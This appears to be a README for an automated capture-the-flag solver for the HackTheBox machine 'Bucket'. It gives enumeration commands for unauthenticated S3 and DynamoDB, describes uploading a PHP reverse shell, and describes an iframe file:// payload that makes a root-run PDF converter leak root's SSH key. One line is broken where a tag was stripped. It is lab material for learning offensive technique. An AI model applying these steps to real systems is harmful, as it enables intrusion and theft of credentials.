



# Automated Script to complete Bucket!!

```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-10-18 17:19 EDT
Nmap scan report for bucket.htb (10.129.16.127)
Host is up (0.013s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```


## User Details:    
* Enumerating on 80
* We discover references to s3.bucket.htb
* Also checked enumeration for other buckets using:
```
~/ffuf/ffuf -w ~/SecLists/Discovery/Web-Content/common.txt -u http://s3.bucket.htb/FUZZ
```

* Navigating to http://s3.bucket.htb/health displays:
```
{"services": {"s3": "running", "dynamodb": "running"}}
```
* We can perform bucket enumeration and search for contents
* For example:
```
* Searching for buckets
aws s3 ls  --no-sign-request --profile default --endpoint http://s3.bucket.htb/
* Download from the bucket
aws --no-sign-request --profile default --endpoint http://s3.bucket.htb/ s3 sync s3://adserver/ .
* Copying data to the bucket
aws --no-sign-request --profile default --endpoint http://s3.bucket.htb/ s3 cp test.txt s3://adserver/test.txt
```
* We discover that we can write objects to the adserver bucket
* We can also query dynamodb
```
* Listing tables
aws --no-sign-request --profile default --endpoint http://s3.bucket.htb/ dynamodb list-tables

* Listing contents of the users tables
aws --no-sign-request --profile default --endpoint http://s3.bucket.htb/shell/ dynamodb scan --table-name users
 
```
* Credentials were discovered on dynamodb, however they do not work for any services... 

### Attack Path
* We can write to the s3 bucket, and contents are replicated and served on the bucket.htb host
* Create a php payload and upload it to the bucket
* Wait a bit then trigger execution for a reverse shell

### Automated User
* The automated script will use boto3 apis to
	* Enumerate s3 buckets
		* List all objects in each bucket
	* Enumerate Dynamo DB tables
		* Scan for entries inside the users table and cache them
* Upload a php reverse shell payload to the adserver bucket
* Make background threaded call to http://bucket.htb/<filename>.php repeatedly until the sync of the bucket content is reflected from s3.bucket.htb/adserver/<filename>.php --> http://bucket.htb/<filename.php> . Terminate thread once successful 
* Catch a reverse shell when the PHP payload is triggered
* Display hostname, whoami, and cat /etc/passwd
* Show that the only user on the box is, "roy"
* Attempt to ssh into the box as roy, with all the password combinations discovered from the user table in DyanmoDB


Running the script with -t user
 


## Root Details:
* Upon landing in roy's directory we have to perform quite a bit of enumeration
* We find that [localstack](https://github.com/localstack/localstack) is used to emulate AWS
* For example pspy shows cleanup processes
```
2020/10/18 06:25:04 CMD: UID=0    PID=527387 | /usr/bin/python3 /usr/bin/aws --endpoint-url=http://localhost:4566 s3 rb s3://adserver                   
2020/10/18 06:25:05 CMD: UID=0    PID=527391 | /usr/bin/python3 /usr/bin/aws --endpoint-url=http://localhost:4566 s3 mb s3://adserver                   
2020/10/18 06:25:06 CMD: UID=0    PID=527395 | /usr/bin/python3 /usr/bin/aws --endpoint-url=http://localhost:4566 s3 sync /root/backups/ s3://adserver 
2020/10/18 06:25:07 CMD: UID=0    PID=527418 | /usr/bin/php /root/restore.php 
2020/10/18 07:12:01 CMD: UID=0    PID=531907 | /bin/sh -c rm /var/www/bucket-app/files/*

```
* Netstat reveals another service listening on port 8000 on localhost
* Checking apache2 configurations we see that the virtualhost for 8000 is running as root
```
<VirtualHost 127.0.0.1:8000>                                                                                                                                                                       
        <IfModule mpm_itk_module>                                                                                                                                                                  
                AssignUserId root root
        </IfModule>
        DocumentRoot /var/www/bucket-app
</VirtualHost>
```
* Therefore we dig into /var/www/bucket-app
* Interesting functionality in index.php
```
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        file_put_contents('files/'.$name,$item["data"]);
                }
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
}
else
{
?>
```
* When index.php is triggered with a POST request with action=get_alerts
	* The index.php code will search dynamodb for an alerts table
	* Filter any rows with a "title" column that contains the value "Ransomware"
	* Generate a random number from 1-10000 and create a file <randomnumber>.html
	* Insert the contents of the row contained in the "data" column into the html file
	* Run a process (remember, as root) using pd4ml_demo.jar to convert the HTML to PDF
		* This is triggered if a value that matches in the alerts dynamodb table exists
		* To trigger, we need to POST to /index.php on localhost

### Attack Path
* A database named alerts does not exist
* We have to create the database in dynamodb
* Insert records into dynamodb containing our payload
* Exploit the HTML -> PDF conversion
	* [List of tags in PD4ML](https://pd4ml.com/html.htm)
	* <pd4ml:attachment> was interesting, however it didn't work
	* calling  /> will have the server phone background
	* We can use <iframe src="file:///<files>"> to disclose information
	* Pull the resulting PDF to see the extracted values

### Automation root
* Using boto3:
	* Create a table alerts with the schema that we infer from what the code in index.php is doing
	* Insert an item into the alerts dynamodb table
	* Our payload here is to pull /root/.ssh/id_rsa and have that render within the PDF 
* Make a call to localhost:8000 to trigger index.php 
* Wait a few seconds
* Download the resulting file in /var/www/bucket-app/files/result.php 
* Parse the PDF programatically using PyPDF2 to pull the private key
* Save the private key to file
* Log into the host as root	

Running the script with -t root

